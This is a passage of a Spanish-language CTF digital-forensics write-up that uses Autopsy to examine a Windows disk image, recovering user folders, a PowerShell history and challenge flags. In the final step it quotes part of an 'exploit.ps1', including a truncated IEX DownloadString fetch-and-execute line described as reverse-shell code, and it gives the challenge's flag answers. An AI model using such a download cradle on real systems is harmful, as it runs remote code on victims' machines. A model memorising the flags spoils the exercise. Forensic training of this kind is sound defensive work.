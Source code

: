 1.  Hacemos clic en **"Images/Videos"** en la barra de herramientas superior para acceder al **Image/Video Gallery Editor** de Autopsy.
2.  Navegamos a las carpetas de usuario (`Users`) dentro del volumen `vol3`.
3.  Expandimos el árbol de directorios para ver los archivos en las carpetas de usuario, y notamos una carpeta de descargas (`Downloads`) para un usuario que no estaba listado explícitamente en el **Paso 5**:
    * **Nombre de Usuario Adicional:** `joshuva`

4.  Dentro de la carpeta `joshuva/Downloads`, encontramos una imagen, en este caso, un fondo de pantalla (`cyberpunk-2077-samurai-jacket-yo-1360x768.jpg`).

<img width="1004" height="726" alt="USuario que tiene su nombre completo en wallapper" src="https://github.com/user-attachments/assets/95a00361-438c-45f5-b775-bdc1dc7d188e" />

La existencia de esta carpeta y archivos confirma que el usuario **`joshuva`** ha utilizado el sistema, y su nombre completo puede ser la respuesta a una de las preguntas del CTF.

---
## 🚩 Paso 11: Descubrimiento de las Banderas (Flags) y Análisis de la Actividad Maliciosa

Para encontrar las respuestas principales del CTF, investigamos los historiales de comandos y las carpetas de usuario en busca de archivos que contengan la "flag" (bandera) y evidencia de actividad maliciosa.

### 11.1. Análisis del Historial de PowerShell de Shreya

1.  Navegamos a la carpeta de la usuaria **`shreya`** y a la ruta de **PowerShell**: `Users\shreya\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine`.
2.  Abrimos el archivo **`ConsoleHost_history.txt`**, que registra los comandos ejecutados en PowerShell.
3.  Observamos los comandos `Add-Content` utilizados para escribir una bandera en un archivo:
    * El comando final ejecutado es: `Add-Content .\shreya.txt "flag{HarleyQuinnForQueen}"`
    * **Bandera Modificada por Shreya:** `flag{HarleyQuinnForQueen}`
  
<img width="1356" height="844" alt="que bandera cambio la usuaria" src="https://github.com/user-attachments/assets/a93a99dc-f221-400b-8cd9-c6bd52472179" />

### 11.2. Análisis del Script de Exploit de Hasan

1.  Navegamos al escritorio del usuario **`HASAN`**: `Users\HASAN\Desktop`.
2.  Encontramos un archivo sospechoso llamado **`exploit.ps1`**, que indica un script de PowerShell malicioso.
3.  Revisamos el contenido del script. El script parece ser un *payload* de ataque, y contiene el siguiente código:

    ```powershell
    Add-Content C:\Users\HASAN\Desktop\hacked.txt 'Flag{I-hacked-you}'
    ```

4.  Este comando escribe un mensaje de "hacked" (hackeado) en un archivo de texto en el escritorio de `HASAN`. El mensaje de la bandera (flag) que fue dejado es:
    * **Mensaje de la Bandera del Exploit:** `Flag{I-hacked-you}`

5.  El script también incluye código para descargar contenido de YouTube (`https://youtu.be/C9GJFFhjHXI`) y parece contener código de **reverse shell** (`IEX (New-Object System.Net.WebClient).DownloadString('http://...`)`, lo que confirma que el propósito principal del archivo era realizar un ataque.
